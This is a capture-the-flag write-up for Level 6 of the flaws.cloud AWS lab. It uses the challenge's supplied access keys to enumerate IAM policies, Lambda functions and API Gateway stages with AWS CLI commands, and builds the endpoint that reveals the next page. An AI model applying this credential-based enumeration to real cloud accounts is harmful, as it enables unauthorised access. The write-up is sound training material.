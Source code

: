 ![image](https://github.com/user-attachments/assets/53ab3c26-0ced-47bc-9b21-6aeb652a968a)# Level 6
url: http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/

<kbd>![image](https://github.com/user-attachments/assets/eb4c364a-c80b-4bb4-8a86-bffb0f17e0cb)</kbd>

This time we are going to find policies and access attached to the given keys, also it said the there is SecurityAudit policy attached to these keys.

```
Access key ID: AKIAJFQ6E7BY57Q3OBGA
Secret: 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
```

Lets proceed and add this new access to our profile using `aws configure` command

<kbd>![image](https://github.com/user-attachments/assets/24a8ba8e-0178-48f1-a2a6-38d871464394)</kbd>

And if we want to check our listed profiles we can also use 

```
aws configure list-profiles
```
<kbd>![image](https://github.com/user-attachments/assets/8d7fc921-b57c-4db9-97ac-1a3e9b30cfe1)</kbd>

And then we will enumerate using the `get-user` command under the `iam` module of aws

```
aws iam get-user --profile level6
```
<kbd>![image](https://github.com/user-attachments/assets/ae2c5ebc-488c-4742-a861-e533eda16b2c)</kbd>

we'll take note of the username
```
 "UserName": "Level6"
```

And we'll find policies attached to it using `list-attached-user-policies`

```
└─$ aws iam list-attached-user-policies --user-name level6 --profile level6 
{
    "AttachedPolicies": [
        {
            "PolicyName": "MySecurityAudit",
            "PolicyArn": "arn:aws:iam::975426262029:policy/MySecurityAudit"
        },
        {
            "PolicyName": "list_apigateways",
            "PolicyArn": "arn:aws:iam::975426262029:policy/list_apigateways"
        }
    ]
}
  
```
<kbd>![image](https://github.com/user-attachments/assets/3e67ace5-2786-4bc4-8ec1-ad9d08111210)</kbd>


we'll take the `PolicyArn` of the list_apigateways, to find the versionid, and as seen `v4` is our version

<kbd>![image](https://github.com/user-attachments/assets/8df2443b-6c80-47ce-b18a-679ea20f356d)</kbd>


Now that you have the ARN and the version id, you can see what the actual policy is: 

```
 aws iam get-policy-version  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4 --profile level6 
```

<kbd>![image](https://github.com/user-attachments/assets/a3c18607-9b7a-4c15-8f0e-e79779f7a75e)</kbd>


This tells us using this policy we can call "apigateway:GET" on "arn:aws:apigateway:us-west-2::/restapis/*" 

Since the `SecurityAudit policy` lets us see some things about lambdas: 

To check this we can issue 
```

└─$ aws lambda list-functions --region us-west-2 --profile level6
{
    "Functions": [
        {
            "FunctionName": "Level6",
            "FunctionArn": "arn:aws:lambda:us-west-2:975426262029:function:Level6",
            "Runtime": "python2.7",
            "Role": "arn:aws:iam::975426262029:role/service-role/Level6",
            "Handler": "lambda_function.lambda_handler",
            "CodeSize": 282,
            "Description": "A starter AWS Lambda function.",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2017-02-27T00:24:36.054+0000",
            "CodeSha256": "2iEjBytFbH91PXEMO5R/B9DqOgZ7OG/lqoBNZh5JyFw=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "d45cc6d9-f172-4634-8d19-39a20951d979",
            "PackageType": "Zip",
            "Architectures": [
                "x86_64"
            ],
            "EphemeralStorage": {
                "Size": 512
            },
            "SnapStart": {
:

```

So we have a function name called `Level6` 

<kbd>![image](https://github.com/user-attachments/assets/a67289e7-d302-49af-a446-994881066d4a)</kbd>

To get more infromation about the `Level6` function we can use the  lambda's `get-policy` function
```
┌──(aaron㉿kali)-[~/flaws/level6]
└─$ aws lambda get-policy --function-name Level6 --region us-west-2 --profile level6
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"904610a93f593b76ad66ed6ed82c0a8b\",\"Effect\":\"Allow\",\"Principal\":{\"Service\":\"apigateway.amazonaws.com\"},\"Action\":\"lambda:InvokeFunction\",\"Resource\":\"arn:aws:lambda:us-west-2:975426262029:function:Level6\",\"Condition\":{\"ArnLike\":{\"AWS:SourceArn\":\"arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\"}}}]}",
    "RevisionId": "edaca849-06fb-4495-a09c-3bc6115d3b87"
}
         
```
<kbd>![image](https://github.com/user-attachments/assets/dbd4eaa1-7c16-468c-a0e0-5491829f783b)</kbd>

This tells us we have the ability to execute `arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\` 

That "s33ppypa75" is a rest-api-id, which we can then use to find the resource name, we are oing to use the `aws apigateway get-stages` command

```
└─$ aws apigateway get-stages --rest-api-id s33ppypa75 --region us-west-2 --profile level6
{
    "item": [
        {
            "deploymentId": "8gppiv",
            "stageName": "Prod",
            "cacheClusterEnabled": false,
            "cacheClusterStatus": "NOT_AVAILABLE",
            "methodSettings": {},
            "tracingEnabled": false,
            "createdDate": "2017-02-26T19:26:08-05:00",
            "lastUpdatedDate": "2017-02-26T19:26:08-05:00"
        }
    ]
}


```
We can see from the results the  `"stageName": "Prod",` 

**Lambda** functions in aws are called using that `rest-api-id`, `stage name`, `region`, and `resource`. 

 Since we already have these 4 requirements, we combine them all together we will have ` https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6`

>- `rest-api-id`  = s33ppypa75 (We get from  `aws lambda get-policy` command )
>- `stage name` = execute-api (We get from  `aws lambda get-policy` command )
>- `region` = us-west-2 
>- resource = Prod/level6  (from `aws apigateway get-stages` )
 

Then we we go to the url, this is what we see

<kbd>![image](https://github.com/user-attachments/assets/b855e61e-de68-4121-9f6b-170b3d3b5238)</kbd>


It tells us to go to `http://theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud/d730aa2b/`

![image](https://github.com/user-attachments/assets/cefa99cc-f91e-4e78-94bb-0a3e37425492)


The end. 



